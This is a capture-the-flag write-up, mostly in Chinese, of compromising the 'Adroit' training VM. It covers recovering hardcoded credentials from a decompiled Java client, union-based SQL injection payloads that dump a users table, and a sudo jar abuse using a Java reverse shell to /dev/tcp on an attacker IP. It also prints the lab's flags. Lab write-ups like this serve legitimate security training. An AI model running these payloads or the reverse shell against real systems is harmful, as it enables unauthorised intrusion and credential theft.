

# Adroit

:::note

[Linux VM] [Tested on VirtualBox] created by || alienum

⏲️ Release Date // 2021-01-16

✔️ MD5 // ac9c736e31582644e86eeb4f832c1e4a

☠ Root // 23

💀 User // 24

📝Notes //
Created and Tested in Virtual Box Suggested tools : jd-gui, eclipse IDE Hint: one 0 is not 0 is O

:::

## 靶机启动

靶机 IP

```plaintext
192.168.56.117
```

## nmap 信息搜集

```plaintext
Nmap scan report for 192.168.56.117
Host is up (0.00028s latency).
Not shown: 65530 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 ftp      ftp          4096 Mar 19  2021 pub
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:192.168.56.102
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 d2:32:82:0f:82:48:cd:c2:33:a2:a2:72:09:c5:28:91 (RSA)
|   256 4e:8a:9a:49:b9:23:c2:cd:ac:89:4f:44:b2:0b:0b:db (ECDSA)
|_  256 32:88:82:fc:84:79:98:1d:b2:27:96:26:96:5a:68:6b (ED25519)
3000/tcp  open  ppp?
3306/tcp  open  mysql   MySQL (unauthorized)
33060/tcp open  mysqlx?
| fingerprint-strings:
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp:
|     Invalid message"
|_    HY000
```

## ftp 匿名

```shell
ftp> ls -lah
drwxr-xr-x    3 ftp      ftp          4096 Jan 14  2021 .
drwxr-xr-x    3 ftp      ftp          4096 Jan 14  2021 ..
drwxr-xr-x    2 ftp      ftp          4096 Mar 19  2021 pub
ftp> cd pub
ftp> ls -lah
drwxr-xr-x    2 ftp      ftp          4096 Mar 19  2021 .
drwxr-xr-x    3 ftp      ftp          4096 Jan 14  2021 ..
-rw-r--r--    1 ftp      ftp          5451 Jan 14  2021 adroitclient.jar
-rw-r--r--    1 ftp      ftp           229 Mar 19  2021 note.txt
-rw-r--r--    1 ftp      ftp         36430 Jan 14  2021 structure.PNG
```

将三个文件下载下来进行分析

```plaintext title="note.txt"
Hi, i am a junior developer and i am pro with cyber security.
Also i am a writer and i created a java socket app to save my ideas.
PS :
if you break something the server will restart within a minute.
Also, one 0 is not 0 but O
```

查看图像内容



可以怀疑可能要通过 `Adroit` 去攻击 `MySQL` 服务

## Java 反编译

```java title="adroit.AdroitClient"
package adroit;

import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.io.UnsupportedEncodingException;
import java.net.Socket;
import java.net.UnknownHostException;
import java.rmi.NotBoundException;
import java.rmi.RemoteException;
import java.security.InvalidKeyException;
import java.security.NoSuchAlgorithmException;
import java.util.Scanner;
import javax.crypto.BadPaddingException;
import javax.crypto.IllegalBlockSizeException;
import javax.crypto.NoSuchPaddingException;

/* loaded from: adroitclient.jar:adroit/AdroitClient.class */
public class AdroitClient {
    private static final String secret = "Sup3rS3cur3Dr0it";
    static ObjectOutputStream os;
    static ObjectInputStream is;
    static Socket socket;

    public static void main(String[] args) throws InvalidKeyException, NoSuchPaddingException, NoSuchAlgorithmException, BadPaddingException, IllegalBlockSizeException, UnsupportedEncodingException, NotBoundException, ClassNotFoundException {
        Cryptor crypt = new Cryptor();
        try {
            socket = new Socket("adroit.local", 3000);
            os = new ObjectOutputStream(socket.getOutputStream());
            is = new ObjectInputStream(socket.getInputStream());
            R request = new R();
            Scanner scanner = new Scanner(System.in);
            System.out.println("Enter the username :");
            String userName = crypt.encrypt(secret, scanner.nextLine());
            System.out.println("Enter the password :");
            String password = crypt.encrypt(secret, scanner.nextLine());
            if (userName.equals(crypt.encrypt(secret, "zeus")) && password.equals(crypt.encrypt(secret, "god.thunder.olympus"))) {
                request.setUsername(userName);
                request.setPassword(password);
                System.out.println("Options [ post | get] :");
                String option = scanner.next();
                scanner.nextLine();
                if (option.toLowerCase().equals("post")) {
                    request.setOption("post");
                    System.out.println("Enter your phrase identifier :");
                    String id = crypt.encrypt(secret, scanner.nextLine());
                    System.out.println("Enter your phrase :");
                    String phrase = crypt.encrypt(secret, scanner.nextLine());
                    Idea idea = new Idea();
                    idea.setId(id);
                    idea.setPhrase(phrase);
                    request.setIdea(idea);
                    os.writeObject(request);
                    R responseobj = (R) is.readObject();
                    String response = responseobj.getOption();
                    System.out.println(response);
                } else if (option.toLowerCase().equals("get")) {
                    request.setOption("get");
                    System.out.println("Enter the phrase identifier :");
                    String inp = scanner.nextLine();
                    String id2 = crypt.encrypt(secret, inp);
                    Idea idea2 = new Idea();
                    idea2.setId(id2);
                    request.setIdea(idea2);
                    os.writeObject(request);
                    R responseobj2 = (R) is.readObject();
                    String response2 = responseobj2.getOption();
                    System.out.println(response2);
                } else {
                    System.out.println("Bad option, valid options = get, post");
                }
            } else {
                System.out.print("Wrong username or password");
            }
            scanner.close();
        } catch (UnknownHostException e) {
            e.printStackTrace();
        } catch (RemoteException e2) {
            System.out.println(e2.getMessage());
            e2.printStackTrace();
        } catch (IOException e3) {
            e3.printStackTrace();
        }
    }
}
```

可以看到，程序对 `adroit.local` 这个域名的 3000 端口建立了 Socket 连接，疑似是自行实现了一套加密的 HTTP 访问，怀疑这个程序就是 `AdroitClient`

根据后续的代码信息，可以得到以下内容

```java
private static final String secret = "Sup3rS3cur3Dr0it";
userName.equals(crypt.encrypt(secret, "zeus"))
password.equals(crypt.encrypt(secret, "god.thunder.olympus"))
```

尝试在本地建立解析记录

```plaintext title="/etc/hosts"
192.168.56.117 adroit.local
```

然后运行程序

```shell
┌─[randark@parrot]─[~/tmp]
└──╼ $ java -jar adroitclient.jar
Enter the username :
zeus
Enter the password :
god.thunder.olympus
Options [post | get] :
get
Enter the phrase identifier :
1 or 1 = 1
 haxor test
```

怀疑可能存在过滤器，尝试其他 payload

```sql
1 union select 1,database() -- -
--> adroit
1 union select 1,group_concat(table_name) FROM information_schema.tables WHERE table_schema ='adroit' -- -
-->  ideas,users
1 union select 1,group_concat(column_name) from information_schema.columns where table_name ='users' -- -
--> id,username,password,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS
1 union select 1,group_concat(username,0x3a,password) from users -- -
--> writer:l4A+n+p+xSxDcYCl0mgxKr015+OEC3aOfdrWafSqwpY=
```

但是得到的密码还是处于加密的状态，尝试解密

:::warning

这里需要注意上文在 ftp 服务器的提示

```plaintext
Also, one 0 is not 0 but O
```

:::

```java
import java.io.UnsupportedEncodingException;
import java.security.InvalidKeyException;
import java.security.NoSuchAlgorithmException;

import javax.crypto.BadPaddingException;
import javax.crypto.IllegalBlockSizeException;
import javax.crypto.NoSuchPaddingException;

public class Cryptor {
    private String secret;

    public String getSecret() {
        return this.secret;
    }

    public void setSecret(String secret) {
        this.secret = secret;
    }

    public String encrypt(String key, String text) throws NoSuchPaddingException, NoSuchAlgorithmException, InvalidKeyException, BadPaddingException, IllegalBlockSizeException, UnsupportedEncodingException {
        Key aesKey = new SecretKeySpec(key.getBytes(), "AES");
        Cipher cipher = Cipher.getInstance("AES");
        cipher.init(1, aesKey);
        byte[] encrypted = cipher.doFinal(text.getBytes());
        return Base64.getEncoder().encodeToString(encrypted);
    }

    public String decrypt(String key, String text) throws NoSuchPaddingException, NoSuchAlgorithmException, BadPaddingException, IllegalBlockSizeException {
        try {
            Key aesKey = new SecretKeySpec(key.getBytes(), "AES");
            Cipher cipher = Cipher.getInstance("AES");
            cipher.init(2, aesKey);
            String decrypted = new String(cipher.doFinal(Base64.getDecoder().decode(text)));
            return decrypted;
        } catch (InvalidKeyException e) {
            System.out.println("[x] Invalid key length {16 required}");
            return null;
        }
    }
}

public class Main {

    public static void main(String[] args) throws InvalidKeyException, NoSuchPaddingException, NoSuchAlgorithmException, BadPaddingException, IllegalBlockSizeException, UnsupportedEncodingException {

        Cryptor cryptor = new Cryptor();
        String password = cryptor.decrypt("Sup3rS3cur3Dr0it", "l4A+n+p+xSxDcYCl0mgxKrO15+OEC3aOfdrWafSqwpY=");
        System.out.println(password);

    }

}
```

得到的密码为 `just.write.my.ideas`

组合起来就是一组凭据

```plaintext
writer:just.write.my.ideas
```

## User - writer

```shell
┌─[randark@parrot]─[~/tmp]
└──╼ $ pwncat-cs writer@192.168.56.117
[23:16:04] Welcome to pwncat 🐈!
Password: *******************
[23:16:10] 192.168.56.117:22: normalizing shell path
           192.168.56.117:22: registered new host w/ db
(local) pwncat$ back
(remote) writer@adroit:/home/writer$ whoami
writer
```

### flag - user

```shell
(remote) writer@adroit:/home/writer$ cat user.txt
61de3a25161dcb2b88b5119457690c3c
```

### 环境探测

```plaintext title="sudo -l"
Matching Defaults entries for writer on adroit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User writer may run the following commands on adroit:
    (root) /usr/bin/java -jar /tmp/testingmyapp.jar
```

由于 `/tmp/testingmyapp.jar` 文件是不存在的，于是可以部署恶意负载

```java title="/tmp/shell.java"
public class shell {
    public static void main(String[] args) {
        ProcessBuilder pb = new ProcessBuilder("bash", "-c", "$@| bash -i>& /dev/tcp/192.168.56.102/6666 0>&1")
            .redirectErrorStream(true);
        try {
            Process p = pb.start();
            p.waitFor();
            p.destroy();
        } catch (Exception e) {}
    }
}
```

```plaintext title="Manifest.txt"
Main-Class: shell
```

进行编译

```shell
(remote) writer@adroit:/tmp$ javac shell.java
(remote) writer@adroit:/tmp$ jar cfm Shell.jar Manifest.txt shell.class
(remote) writer@adroit:/tmp$ mv Shell.jar /tmp/testingmyapp.jar
```

## User - root

```shell
# (remote) writer@adroit:/tmp$ sudo /usr/bin/java -jar /tmp/testingmyapp.jar
┌─[randark@parrot]─[~]
└──╼ $ pwncat-cs -lp 6666
[23:34:13] Welcome to pwncat 🐈!
[23:37:27] received connection from 192.168.56.117:54654
[23:37:27] 192.168.56.117:54654: registered new host w/ db
(local) pwncat$ back
(remote) root@adroit:/tmp# whoami
root
```

### flag - root

```shell
(remote) root@adroit:/root# cat root.txt
017a030885f25af277dd891d0f151845
```
